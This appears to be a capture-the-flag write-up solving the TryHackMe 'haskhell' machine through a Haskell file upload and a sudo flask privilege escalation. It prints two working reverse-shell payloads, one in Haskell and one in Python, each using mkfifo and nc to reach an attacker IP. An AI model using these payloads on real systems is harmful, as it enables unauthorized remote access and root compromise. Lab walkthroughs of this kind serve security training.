


Hello everyone,

Today we are going to solve haskhell machine from Tryhackme. we will learn how to get reverse shell with haskhell and how to escalate our privileges with flask.


<!--truncate-->

## Nmap results

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
|_  256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
5001/tcp open  http    Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
|_http-title: Homepage
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

--> I got this page on port `5001`



--> After reading the content of website i found that this website is only accepting the haskell(.hs) file so i googled how to execute system commands in haskell and i found this code.

```hs
import System.Process

main = callCommand "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.10.10 4444 >/tmp/f"
```

--> But where we will upload this file so let's run the gobuster !

## Gobuster results

--> I found only one directory called `/submit` in which we can upload file so i uploaded my payload there and after clicking upload button i got the reverse shell !



## Privesc

--> i found the ssh keys of `prof` user in his home dir.

after logging in as that user i found that we can run `/usr/bin/flask run` as root so i found one directory in same directory called `__pycache__` in which i found 2 files in which one file was getting executed by root so i done strings on it and i found it's using `/home/prof/app.py` file but i didn't found any file so i made one !


and added this code :

```py
import os
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.10.10 6969 >/tmp/f")
```

--> But after running the file i got one error and i found that we have to add that file as FLASK_APP environmental variable

```bash
export FLASK_APP=app.py
```

and after that i again ran `sudo /usr/bin/flask run` and got the root shell !
